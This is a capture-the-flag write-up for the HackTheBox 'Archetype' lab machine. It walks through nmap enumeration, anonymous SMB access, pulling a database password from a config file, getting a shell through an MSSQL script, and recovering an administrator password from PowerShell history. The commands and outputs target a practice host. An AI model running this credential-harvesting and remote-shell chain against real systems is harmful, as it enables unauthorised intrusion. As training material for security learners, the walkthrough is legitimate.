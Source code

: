 # **HackTheBox Archtype**
## Windows MySQL

See this writeup on my HackMD page: https://hackmd.io/@b0o5t3d/HTBArchtype

### Basic Information
Machine IP: **10.10.10.27**
Type: **Windows**

### Step 1: Footprinting

Use nmap to enumerate the machine.
```
nmap -sS -sV -sC 10.10.10.27
```
Results:
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-10 11:35 EDT
Nmap scan report for 10.10.10.27
Host is up (0.25s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2021-06-10T15:51:45
|_Not valid after:  2051-06-10T15:51:45
|_ssl-date: 2021-06-10T15:58:36+00:00; +22m54s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h46m53s, deviation: 3h07m50s, median: 22m52s
| ms-sql-info: 
|   10.10.10.27:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-06-10T08:58:22-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-06-10T15:58:25
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.70 seconds
```

Since ports 445 and 1433, which are linked to SMB and SQL Server, are opened.

### Step 2: Search Samba Shares

First check the samba shares.

```
smbclient -L //10.10.10.27
```
Enter the password with nothing to check for annonymous access.

Results:
```
Enter WORKGROUP\root's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available

```

Now access the share backups and list the files.

```
smbclient //10.10.10.27/backups
ls
```

Results:
```
smb: \> ls
  .                                   D        0  Mon Jan 20 07:20:57 2020
  ..                                  D        0  Mon Jan 20 07:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 07:23:02 2020

                10328063 blocks of size 4096. 8248188 blocks available
```

Download the file into your own machine and see it's contents.

```
get prod.dtsConfig
exit
cat prod.dtsConfig
```

Results:
```
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>      
```

Notice the Password=M3g4c0rp123 and User ID=ARCHETYPE\sql_svc

### Step 3: Login to the SQL Server

Head over to https://github.com/Alamot/code-snippets/blob/master/mssql/mssql_shell.py and change the following details:

```
MSSQL_SERVER="10.10.10.10"
MSSQL_USERNAME = "Domain\\sa_user"
MSSQL_PASSWORD = "**********"
```

to 

```
MSSQL_SERVER="10.10.10.27"
MSSQL_USERNAME = "ARCHETYPE\sql_svc"
MSSQL_PASSWORD = "M3g4c0rp123"
```

Now run the script

```
python3 mssql_shell.py
```

Run a whoami to find out the current user:

Results:
```
CMD sql_svc@ARCHETYPE C:\Windows\system32> whoami
archetype\sql_svc
```

Head to directory C:\Users\sql_svc\Desktop\ and display the user.txt file

```
cd C:/
cd Users\sql_svc\Desktop\
more user.txt
```

### Step 4: Privilege Escalation

Now, head over to C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline and display the ConsoleHost_history.txt file

Results:
```
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```

username: administrator password: MEGACORP_4dm1n!!

Now, go to back to the samba shares and login with these details.

```
smbclient \\10.10.10.27\C$ -U administrator 
```

Login with the password above.

Head to \Users\administrator\desktop\ and display the root.txt file.

```
cd users\administrator\desktop\
more root.txt
```

